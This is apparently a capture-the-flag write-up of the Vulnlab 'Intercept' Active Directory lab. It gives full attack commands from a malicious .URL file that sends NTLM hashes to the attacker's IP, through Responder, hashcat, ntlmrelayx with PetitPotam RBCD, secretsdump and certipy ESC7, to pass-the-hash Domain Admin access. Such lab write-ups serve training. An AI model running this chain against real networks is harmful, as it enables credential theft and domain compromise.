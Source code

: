 ## Vulnlab Chains - Intercept
Intercept is a hard rated chain which contains two machines WS01 and DC01. The chain starts with forced authentication using a file upload to grab a users hash. Using this used we performed the Resourced Based Contrained Delegation (RBCD) WebClient attack to escalate privileges. Finally using ESC7 we elevate privileges to Domain Admin.

![_install](/assets/img/VL-Intercept/intercept_slide.png)

### Initial Access
Added the following to the /etc/hosts file:
```bash
10.10.185.69 intercept.vl
10.10.185.69 DC01.intercept.vl
10.10.185.70 WS01.intercept.vl
```

I started off using some nmap scans and quickly noticed  that it was possible to access the dev share using a null session.

![_install](/assets/img/VL-Intercept/null_session_dev.png)

I entered the share using null authentication and looked through the directories.

![_install](/assets/img/VL-Intercept/null_session_dev2.png)

I noticed that the "readme.txt" file says that the share is checked regulary for updates for the application. This for me was a big indicator for forced authenticated using a file upload. I created a malcious .URL file:
```bash
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.8.0.49\%USERNAME%.icon
IconIndex=1
```
And uploaded it to the share using an smbclient session:

![_install](/assets/img/VL-Intercept/file_upload.png)

Next up is setting up responder with a SMB listener to get the NTLMv2 hash of the Kathryn.Spencer Domain User:

![_install](/assets/img/VL-Intercept/responder.png)

We can't relay the connection to the Domain Controller before SMB Signing is enabled by default. However I always check this to make sure.

![_install](/assets/img/VL-Intercept/signing_enabled.png)

So instead of relaying the connection lets try to check it using hashcat. I put the contents of the hash in a file called hash.txt and ran it against rockyout.txt like so:
```bash
hashcat -a 0 -m 5600 hash.txt /opt/rockyou.txt
```
This succesfully recovered the password which ended up being "Choclate1". 
![_install](/assets/img/VL-Intercept/cracked_hash.png)

### Domain Enumeration
Now that we have a valid Domain user we can enumerate the domain using bloodhound. Let's run the python remote ingestor to collect some data:
```bash
bloodhound.py -d intercept.vl -v --zip -c All -dc DC01.intercept.vl -ns 10.10.185.69 -u 'Kathryn.spencer' -p 'Chocolate1' --dns-timeout 10
```
![_install](/assets/img/VL-Intercept/bloodhound.png)

The user kathryn.spencer doesn't have any interesting outbound permissions.
![_install](/assets/img/VL-Intercept/bloodhound_enum.png)

I enumerated the Domain more and figured out that the MachineAccountQuota has the default setting of "10".
![_install](/assets/img/VL-Intercept/maq.png)

And also figured out that the Domain Controller doesn't have LDAP Signing enforced:
![_install](/assets/img/VL-Intercept/ldap_signing.png)

If the WebDAV service is also enabled we can perform an RBCD WebClient attack using coerced authentication such as PetitPotam. Lets check if the WebDAV service is active using netexec:
![_install](/assets/img/VL-Intercept/webdav_client.png)

## RBCD to Local Administrator
Now that we know that the WebDAV service is enabled on WS01, LDAP Signing is disabled on the DC and we can add machine accounts to the domain we can abuse this in combination with coerced authentcation to escalate privileges. However when relaying out coercion authentication and add RBCD permissions to WS01 the authenticated connection has to come from a trusted intranet zone. Luckly for us by default the "Authenticated Users" group can create child objects on the ADIDNS zone. Lets start off the attack by create a new A-record which points to our machine using dnstool.py:
```bash
dnstool.py -u 'intercept\kathryn.spencer' -p 'Chocolate1' -a add -r kali -d 10.8.0.49 10.10.185.69
```
![_install](/assets/img/VL-Intercept/dnstool.png)
Next is starting ntlmrelayx for relaying the coerced authentication:
```bash
ntlmrelayx.py -t ldaps://10.10.185.69 --delegate-access --http-port 8080 -smb2support
```
![_install](/assets/img/VL-Intercept/ntlmrelayx.png)
Finishing off we coerce authenticated using PetitPotam to our created DNS record which is in trusted intranet zone which gets relayed to the Domain Controller to allow impersonation on WS01$ via S4U2Proxy. We can trigger the coercion using:
```bash
petitpotam.py -d "intercept.vl" -u "kathryn.spencer" -p "Chocolate1" kali@8080/a 10.10.185.70
```
![_install](/assets/img/VL-Intercept/petitpotam.png)

And if we now take a look at ntlmrelayx we see that a new computer has been created which allows us the impersonate users via S4U2Proxy:
![_install](/assets/img/VL-Intercept/relay_ok.png)

Next we request a TGT for the CIFS service as the Administrator on the WS01 computer using getST.py:
```bash
getST.py -spn cifs/WS01.intercept.vl -dc-ip 10.10.185.69 -impersonate administrator intercept.vl/PMZKVLGA$:'.Wpkn,gC7Xpd}9S'
```
![_install](/assets/img/VL-Intercept/TGT.png)

Now we export the TGT in memory and run secretsdump.py to obtains logon information.
```bash
export KRB5CCNAME=administrator@cifs_WS01.intercept.vl@INTERCEPT.VL.ccache 
secretsdump.py administrator@WS01.intercept.vl -k -no-pass
```
![_install](/assets/img/VL-Intercept/secretsdump1.png)
This reveals the password of the user Simon_Bowen. Lets check bloodhound if this user have any interesting permissions which we can abuse. Lookup at the output we can see that the user is member of the helpdesk groups which has GenericAll permissons on the ca-managers group. 

![_install](/assets/img/VL-Intercept/perms1.png)

Now lets run certipy to find if this group have any intersting permissions:
```bash
certipy find -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69
```
Looking at the output we see that the ca-managers group has ManageCa permission on the Certificate Authority which makes it vulnerable to ESC7
![_install](/assets/img/VL-Intercept/esc7.png)

## AD CS Misconfiguration (ESC7)
To be able to abuse ESC7 we first need to add Simon.Bowen to the ca-managers group. This is possible because the group that he is part of (helpdesk) has GenericAll permissions on the group. We can add Simon to the group using net rpc:
```bash
net rpc group addmem 'ca-managers' 'Simon.Bowen' -U intercept.vl/Simon.Bowen -S DC01.intercept.vl 
```
To verify the user has been succesfully added to the group I re-ran bloodhound a confirmed Simon.Bowen is now part of the ca-managers group:
![_install](/assets/img/VL-Intercept/perms2.png)

Now that we have suffient permissions we can perform the ESC7 attack on the AD CS. First I added myself the Managed Certificated accces right by adding myself as a new officer:
```bash
 certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.183.85 -ca intercept-DC01-CA -add-officer simon.bowen
```
![_install](/assets/img/VL-Intercept/esc7-p1.png)
Now we check if the SubCA template can be enabled on the CA using the -enable-template parameter. By default the SubCA template is enabled.
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -list-template
```
![_install](/assets/img/VL-Intercept/esc7-p2.png)
Now that we have all the prerequisites for this attack we can start by request a certificate based on the SubCA template. This request will be benied but we will save the private key and note down the request ID:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -template 'SubCA' -upn administrator@intercept.vl -target intercept.vl
```
![_install](/assets/img/VL-Intercept/esc7-p3.png)

Having the manage certificate rights we can validate the failed request since we have the key:
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -issue-request 5
```
![_install](/assets/img/VL-Intercept/esc7-p4.png)
Now that we certificate is issued we can retrieve the administrator's certificate:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -target intercept.vl -retrieve 5
```
![_install](/assets/img/VL-Intercept/esc7-p5.png)

Now that we have a certificate of the administrator we can use it to authenticate and retrieve the NT hash:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.185.69 -domain intercept.vl -username administrator
```
![_install](/assets/img/VL-Intercept/esc7-p6.png)

We can use this hash to gain access the the DC using netexec:
```
nxc smb DC01.intercept.vl -u Administrator -H ad95c338a6cc5729ae7390acbe0ca91f -x whoami
```
![_install](/assets/img/VL-Intercept/da_access.png)











